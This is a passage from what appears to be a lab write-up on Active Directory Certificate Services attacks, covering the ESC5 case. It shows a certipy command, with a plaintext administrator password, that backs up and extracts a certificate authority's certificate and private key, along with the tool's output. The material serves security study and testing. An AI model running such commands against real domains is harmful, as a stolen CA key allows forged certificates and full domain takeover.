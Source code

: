 ![ESC3-4887.jpg](ESC3/ESC3-4887.jpg)


# 6. ESC5

Here I directly used the built-in Administrator domain account to access the CA and retrieve its certificate and private key. 
I thus didn't needed to setup anything special for being able to test this attack.

## 6.1 Exploitation

- Retrieve the CA's certificate and private key
```
└─$ certipy ca -backup -u "administrator" -p "mAqAyknz68" -ca DC01-CA -target 172.16.0.1
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Creating new service for backup operation
[*] Creating backup
[*] Retrieving backup
[*] Got certificate and private key
[*] Backing up original PFX/P12 to 'pfx.p12'
File 'pfx.p12' already exists. Overwrite? (y/n - saying no will save with a unique filename): y
[*] Backed up original PFX/P12 to 'pfx.p12'
[*] Saving certificate and private key to 'DC01-CA.pfx'
File 'DC01-CA.pfx' already exists. Overwrite? (y/n - saying no will save with a unique filename): y
[*] Wrote certificate and private key to 'DC01-CA.pfx'
[*] Cleaning up
```
